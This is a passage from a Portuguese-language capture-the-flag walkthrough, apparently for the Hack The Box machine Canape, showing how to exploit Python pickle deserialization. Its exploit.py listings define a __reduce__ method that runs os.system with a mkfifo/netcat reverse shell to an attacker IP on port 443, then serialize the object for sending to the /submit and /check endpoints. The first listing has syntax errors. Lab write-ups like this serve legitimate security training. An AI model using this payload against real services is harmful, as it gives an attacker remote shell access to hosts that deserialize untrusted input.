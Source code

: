 O pickles é utilizado para de/serelização de objetos em python, então, consequentemente devemos criar um objeto e uma classe para ser enviado para ele

exploit.py
```
import os
import cPickle
import requests

class exploit(object):
    def __reduce__(self)
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f,))
```

O que essa reduce faz? Vamos pesquisar... ela vai reduzir a um único valor todo o comando, senão não vamos conseguir serializar com o pickle

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a4.png)

Agora com a classe e objeto criados. Ele vai chamar a função os.system, e executar os comandos, um deles é um shell reverso, agora devemos passar pro pickle fazer isso

exploit.py
```
import os
import cPickle
import requests

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
print sc
```

O que é dumps()? Ai está a explicação. Temos que fazer isso pra poder criar uma representação de string do objeto

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a6.png)

Vamos ver como está se saindo, saída é bizarra, mas não deu erro pelo menos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a5.png)

Vamos continuar então, agora devemos ver pra onde temos que enviar essa bagaça toda, pra isso vamos voltar lá no diff pra ver o que a aplicação "vulnerável" está fazendo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_check.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_submit.png)

Está alterando o /submit e o /check, possivelmente ai está nossos pontos de exploração
